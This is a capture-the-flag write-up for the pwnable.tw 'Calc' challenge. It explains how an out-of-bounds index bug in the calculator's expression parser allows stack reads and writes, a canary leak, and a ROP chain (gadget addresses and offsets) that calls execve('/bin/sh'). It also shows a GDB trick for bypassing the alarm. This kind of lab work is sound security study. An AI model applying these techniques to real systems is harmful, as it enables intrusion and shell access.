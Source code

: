 # Pwnable.tw -- Calc (150 pts)
(Some contents are refered to [this post](https://medium.com/@sagidana/calc-pwnable-tw-ef5450f40253))

The main code is in calc
As we can see in 'dissass calc', the calc function calls get_expr, init_pool, and parse_expr
We can further what these functions do using Ghidra

## Ghidra
- get_expr: it takes a char array and a limit as inputs, then read from stdin for one byte until exceed the limit (0x400).
also, if it reads newline or an error, the loop ends. Input only accept +-*/% and '0'~'9'.
It will return the read size. Nothing vulnerable here...
- init_pool: just fill a pointer with 0 (len 100)

- parse_expr: things getting fishy in this function. The amount of new declared variables is driving me dizzy...
The read formula in "get_expr" and a blank int pointer will serve as inputs. 
The int pointer will be used to store numeraic values. (atoi)
it works somehow like this..
first copy "idx" bytes from operation input
** Note if there's 0, program will raise error
and try atoi the previous byte before operator, see if it is number

Let's say the formula is "1 + 4 * 3 / 2"

idx = 0:
(1) + 4 ...

idx = 1:
1 (+) 4 ...
num_arr = [1, ]
op_arr = [+, ]

in the operation loop:
first time encounter op, just write it to op_arr
later, if there's already an op...
if the current op. is '*','/','%'
e.g.: 1 + 4 (*) 3, 
and current op. is '+', the op_idx will increase one and '*' is write to op_arr
if current op. is not '+''-', it will be evaled (multply first, addition last!)

**  some expression such as "100 +", "100 + -" are also filtered

when read to EOF of operations, all expression will be evaled backwards


## Vulenrability
What if "+100" ?

idx = 0:
(+)100
num_arr = [] (init with 0)
op_arr = [+, ]

the program first meet +, with no element in num_arr
+(100)
num_arr = [100, ]
op_arr = [+, ]


/* This part is very difficult for me :( */

When evaling at addition, it will be like this 
*num_arr-1 = *num_arr-1 + *num_arr (100)

What's *num_arr-1 ?
Let's look back to the "calc", the following value is printed:

    int offset;
    int in_GS_OFFSET;
    int arr_100; // the array processed at "eval"
    undefined4 auStack_5a0 [100]; // the base address
    undefined operators_and_nums [1024];
    ...
    offset = parse_expr(operators_and_nums,&arr_100);
    if (offset != 0) {
        printf("%d", auStack_5a0[arr_100 + -1]);
    ...

We can see that *num_arr-1 refers to the base address "auStack_5a0"
This means that we can actually access memory by our input! ( +xxx --> auStack_5a0[xxx] )


To test this vulnerability, let's print the value of canary
By examining the top of "calc", we can find canary is stored in ebp - 0xc
Canary information is at 0x8049388, which means we can examine its value by printing $eax

        08049382 65  a1  14       MOV        EAX ,GS:[0x14 ]
                 00  00  00
        08049388 89  45  f4       MOV        dword ptr [EBP  + -0xc ],EAX
        0804938b 31  c0           XOR        EAX ,EAX


                             undefined  calc ()
             undefined         AL:1           <RETURN>                                XREF[1]:     080493b4 (W)   
             undefined4        GS_OFFSET:4    in_GS_OFFSET
             undefined4        EAX:4          offset                                  XREF[1]:     080493b4 (W)   
             undefined4        Stack[-0x10]:4 iStack_10
             undefined1[102    Stack[-0x410   operators_and_nums
             undefined1[400]   Stack[ **-0x5a0**   auStack_5a0
             undefined4        Stack[-0x5a4   arr_100
                             calc                                            XREF[3]:     Entry Point (*) , 
                                                                                          main:08049494 (c) , 080dbdd8 (*)   
        08049379 55              PUSH       EBP

And the base address of printed array is at -0x5a0
0x5a0 - 0xc = 0x594 = 1428
1428 / 4 = 357, so by "+357", the canary value will be shown

## Exploit Weakness
We can modify the memory content as well, below I modify canary value, which cause stack smashing of course
```
+357
-1808023296
+357+1
-1808023295
+357
-1808023295

*** stack smashing detected ***: /home/pfliu/picoCTF/pwn/pwnable_tw/calc_dir/calc terminated
```

But, as we checksec the program, we can find that 'Nx' flag is on.
We have to use ROP gadgets instead of putting shellcode on stack 
### ROP
search for gadget like "jmp esp", "jmp edx"
I found "jmp 0x804983d" right behind printf
so put shellcode to this address should deal the problem, right? (X)

Let's deal with address first
address offset: (relative to the base exploited address)
357 -- canary
360 -- old rbp (examine by using p $ebp on breakpoint when canary getting stored in stack)
361 -- ret addr (0x8049499: this is where 'main' call 'calc')

Knowing the offsets, we want to call execve('/bin/shell'), 
in order to do that we need 
eax = 0xb, ebx = esp, ecx = edx = 0

need to find pop eax, ret --> RopGadget
- 0x0805c34b : pop eax ; ret
- 0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
- 0x08049a21 : int 0x80

| 0x0805c34b  | 0xb |  ... | xxx |  
    pop eax                 int 0x80

#### stack issue
To start the ROP chain, we rewrite the return addr with first address (0x0805c34b)
*But... we have to place $ebx with address that store "/bin/sh".. where is stack located ?*

We can simply put the string behind, like this

      pop eax      362                 $edx       $ecx    $ebx     int 0x80      368            370
   | 0x0805c34b  | 0xb | 0x080701d0 |  (369)  |  (368) |  (370) |  0x08049a21 |  370  |  \0  | /bin | /sh\0 |

#### How to find esp address ?
break at 0x8049433 (where calc's "return" is located)
then print 100 lines starting from $esp-4

(gdb) x/100x $esp-4
0xff960ac8:     0xff960ae8 (old rbp)       0x08049499 (return addr)     0x080ec200      0x08049434
0xff960ad8:     0xff960b7c                 0x080481b0                   0x00000000      0x080ec00c
...
esp is point to 0xff96ac4, so the distance between old and new ebp is 28

### skip signal
btw, it is possible to bypass alarm signal.
Just write Python script for GDB interpreter. (This program can be found in "nosignal.py")
set breakpoint at 0x804945b, then use command "set $eip=0x804947b"

        08049458 83  ec  10       SUB        ESP ,0x10
        -------------------signal start------------------
        0804945b c7  44  24       MOV        dword ptr [ESP  + 0x4 ],0x8049434
                 04  34  94 
                 04  08
        08049463 c7  04  24       MOV        dword ptr [ESP ],0xe
                 0e  00  00  00
        0804946a e8  61  4e       CALL       signal                                           undefined signal()
                 00  00
        0804946f c7  04  24       MOV        dword ptr [ESP ],0x3c
                 3c  00  00  00
        08049476 e8  f5  48       CALL       alarm                                            undefined alarm()
                 02  00
        0804947b c7  04  24       MOV        dword ptr [ESP ],0x80bf81c
                 1c  f8  0b  08

## Bingo !
Finally, we can execute /bin/sh to get the flag!
FLAG{C:\Windows\System32\calc.exe}